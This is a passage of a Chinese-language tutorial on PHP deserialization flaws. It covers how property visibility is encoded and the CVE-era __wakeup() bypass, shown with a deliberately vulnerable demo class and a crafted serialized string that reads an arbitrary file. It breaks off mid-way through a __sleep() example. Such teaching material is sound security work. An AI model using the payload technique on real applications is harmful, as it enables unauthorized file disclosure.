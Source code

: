 ![](/assets/wgpsec/images/20200830141143.png)

这里还要补充一点，就是关于变量的分类，变量的类别有三种：

- public：正常操作，在反序列化时原型就行。
- protected：反序列化时在变量名前加上%00*%00。
- private：反序列化时在变量名前加上%00类名%00。

序列化我们知道了是个什么格式，那么如何利用反序列化来触发漏洞进行利用呢？

### __wakeup()

在我们反序列化时，会先检查类中是否存在`__wakeup()`如果存在，则执行。但是如果对象属性个数的值大于真实的属性个数时就会跳过`__wakeup()`执行`__destruct()`。

影响版本：

PHP5 < 5.6.25

PHP7 < 7.0.10

代码示例：

```php
<?php
	header("Content-Type: text/html; charset=utf-8");
    class Ameng{ 
        public $name='1.php'; 

        function __destruct(){ 
            echo "destruct执行<br>";

            echo highlight_file($this->name, true); 
        } 
         

        function __wakeup(){ 
            echo "wakeup执行<br>";
            $this->name='1.php'; 
        } 
    }
	$data = 'O:5:"Ameng":2:{s:4:"name";s:5:"2.php";}';
	unserialize($data);
?>
```

执行结果：

![](/assets/wgpsec/images/20200830153532.png)

### __sleep()

`__sleep()`函数刚好与`__waeup()`相反，前者是在序列化一个对象时被调用，后者是在反序列化时被调用。那么该如何利用呢？我们看看代码。

```php
<?php
	header("Content-Type: text/html; charset=utf-8");
    class Ameng{ 
        public $name='1.php'; 
		
		public function __construct($name){
        $this->name=$name;
    }
		
		function __sleep(){
			echo "sleep()执行<br>";
			echo highlight_file($this->name, true);
		}
		
```